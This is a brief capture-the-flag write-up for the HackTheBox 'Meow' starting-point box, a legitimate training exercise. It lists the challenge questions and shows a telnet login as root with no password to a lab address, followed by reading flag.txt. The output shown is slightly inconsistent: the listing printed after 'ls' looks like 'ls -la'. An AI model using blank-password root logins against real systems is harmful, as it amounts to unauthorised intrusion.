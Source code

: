 # HackTheBox: Meow:
---
URL: https://app.hackthebox.com/starting-point \
Author: HackTheBox
### Challenge Description:
- What does the acronym VM stand for?
- What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.
- What service do we use to form our VPN connection into HTB labs?
- What is the abbreviated name for a 'tunnel interface' in the output of your VPN boot-up sequence output?
- What tool do we use to test our connection to the target with an ICMP echo request?
- What is the name of the most common tool for finding open ports on a target?
- What service do we identify on port 23/tcp during our scans?
- What username is able to log into the target over telnet with a blank password?
- SUBMIT FLAG
### Solution:
Logged into target device using telnet:

```
telnet 10.129.125.34 -l root
```

used ls to list files and then cat the root flag from flag.txt

```
root@Meow:~# ls
total 36
4 drwx------  5 root root 4096 Jun 18  2021 .
4 drwxr-xr-x 20 root root 4096 Jul  7  2021 ..
0 lrwxrwxrwx  1 root root    9 Jun  4  2021 .bash_history -> /dev/null
4 -rw-r--r--  1 root root 3132 Oct  6  2020 .bashrc
4 drwx------  2 root root 4096 Apr 21  2021 .cache
4 -rw-r--r--  1 root root   33 Jun 17  2021 flag.txt
4 drwxr-xr-x  3 root root 4096 Apr 21  2021 .local
4 -rw-r--r--  1 root root  161 Dec  5  2019 .profile
4 -rw-r--r--  1 root root   75 Mar 26  2021 .selected_editor
4 drwxr-xr-x  3 root root 4096 Apr 21  2021 snap
root@Meow:~# cat flag.txt
```

Submitted the flag and successfully completed the box
---
Notes:

